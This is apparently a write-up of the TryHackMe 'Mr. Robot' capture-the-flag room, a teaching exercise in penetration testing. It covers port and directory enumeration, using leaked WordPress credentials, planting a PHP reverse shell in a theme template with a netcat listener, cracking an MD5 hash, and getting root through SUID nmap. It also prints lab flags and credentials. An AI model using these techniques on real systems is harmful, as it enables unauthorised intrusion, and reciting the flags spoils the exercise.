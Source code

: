 ```yaml
---
clayout: ctf
title: Mr. Robot CTF
type: TryHackMe
date: 2025-09-03
level: Medium
icon: /ctf/tryhackme/mr-robot-ctf/icon-room.png
image: /ctf/tryhackme/mr-robot-ctf/icon-room.png
banner: /ctf/tryhackme/mr-robot-ctf/banner.png
description: Based on the Mr. Robot show, can you root this box?
ctf-link: https://tryhackme.com/room/mrrobot
---
```


## Challenge Overview

This challenge is based on the *Mr. Robot* TV series. The goal is to compromise the target machine, escalate privileges, and recover three hidden flags. The machine runs a vulnerable WordPress installation and requires careful enumeration, password cracking, and privilege escalation to achieve full compromise.

## Enumeration

### Nmap Scan

We use `nmap` to scan all ports and enumerate services.

```bash
nmap -sC -sV -p- -oN nmap.txt 10.10.5.240
```

**Scan results:**

```bash
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http     Apache httpd
443/tcp open  ssl/http Apache httpd
```

From this we can see:

* **SSH (22)** is running OpenSSH 8.2p1.
* **HTTP (80)** is running Apache, no obvious title or favicon.
* **HTTPS (443)** is also Apache, but with a weak 1024-bit SSL certificate.

### Web Enumeration

Visiting `http://10.10.5.240/` displays a simple landing page with a "Mr. Robot" theme:

![Home Page](/ctf/tryhackme/mr-robot-ctf/home.png)

### Gobuster

We use `gobuster` to enumerate hidden directories and files on the web server.

```bash
gobuster dir -w fsocity.dic -u http://10.10.5.240/ -t 30
```

**Output (excerpt):**

```bash
/license              (Status: 200)  
/login                (Status: 302) → /wp-login.php
/robots.txt           (Status: 200)  
/wp-admin             (Status: 301)  
/wp-content           (Status: 301)  
/wp-includes          (Status: 301)  
/wp-config            (Status: 200)  
/wp-login             (Status: 200)  
```

The results reveal **WordPress** directories, confirming the site is powered by WordPress. Additionally, two interesting files are exposed: `robots.txt` and `license`.

### robots.txt & First Flag

The `robots.txt` file discloses two files not meant for indexing:

![robots.txt](/ctf/tryhackme/mr-robot-ctf/robots.png)

* The first file is a **dictionary wordlist**. This could be useful later for brute-forcing.
* The second file contains the **first flag**:

> [!IMPORTANT] First flag
> `073403c8a58a1f80d943455fb30724b9`

### License File & Credentials

Opening the `/license` file shows some text along with a suspicious base64 string:

```html
ZWxsaW90OkVSMjgtMDY1Mgo=
```

Decoding it with `base64 -d`:

```bash
echo "ZWxsaW90OkVSMjgtMDY1Mgo=" | base64 -d
```

**Output:**

```text
elliot:ER28-0652
```

We now have valid WordPress credentials for the user `elliot`.

### WordPress Login

Using the credentials `elliot:ER28-0652`, we log in to `/wp-login`.

![WordPress Login](/ctf/tryhackme/mr-robot-ctf/wp-login.png)

Login is successful, and we gain access to the WordPress dashboard. From here, we have the ability to edit theme files, which is a common attack vector.

## Initial Foothold

### Reverse Shell via Theme Editor

Inside the dashboard, navigate to **Appearance → Editor**. By editing the `404.php` template, we can replace its contents with a PHP reverse shell (e.g., [PentestMonkey’s PHP Reverse Shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell)).

![Editor](/ctf/tryhackme/mr-robot-ctf/editor.png)

On our machine, we set up a netcat listener:

```bash
nc -lnvp 4444
```

Then we trigger the payload by visiting `http://10.10.5.240/404`.

**Shell received as daemon user:**

```bash
uid=1(daemon) gid=1(daemon) groups=1(daemon)
```

> [!TIP]Terminal stabilization
>
> ```bash
> python3 -c 'import pty; pty.spawn("/bin/bash")'
> export TERM=xterm
> ```

At this point, we have a foothold on the system.

## Privilege Escalation (daemon → robot)

### Exploring /home/robot

Listing the contents of `/home/robot`:

```bash
ls /home/robot
```

**Results:**

```bash
key-2-of-3.txt
password.raw-md5
```

We don’t have permission to read `key-2-of-3.txt`, but the `password.raw-md5` file is accessible.

### Cracking robot’s Password

The file contains an MD5 hash:

```text
robot:c3fcd3d76192e4007dfb496cca67e13b
```

We use `hashcat` with the RockYou wordlist:

```bash
hashcat password.raw-md5 -m 0 /usr/share/wordlists/rockyou.txt --username
```

**Cracked result:**

```text
robot : abcdefghijklmnopqrstuvwxyz
```

We now have the password for the `robot` user.

### Switching to robot

We connect via SSH with the credentials `robot:abcdefghijklmnopqrstuvwxyz`:

```bash
ssh robot@10.10.5.240
```

**Success:**

```bash
uid=1002(robot) gid=1002(robot) groups=1002(robot)
```

Now we can access the second flag:

> [!IMPORTANT] Second flag
> `/home/robot/key-2-of-3.txt`

## Privilege Escalation (robot → root)

### SUID Binary Enumeration

We search for SUID binaries:

```bash
find / -type f -perm -u=s 2>/dev/null
```

One interesting result is:

```bash
/usr/local/bin/nmap
```

### Exploiting nmap

Older versions of `nmap` include an interactive mode, which can be abused when running with SUID privileges.

```bash
nmap --interactive
nmap> !sh
```

This spawns a root shell:

```bash
uid=0(root) gid=0(root) groups=0(root),1002(robot)
```

With root access, we can now retrieve the last flag:

> [!IMPORTANT] Third flag
> `/root/key-3-of-3.txt`
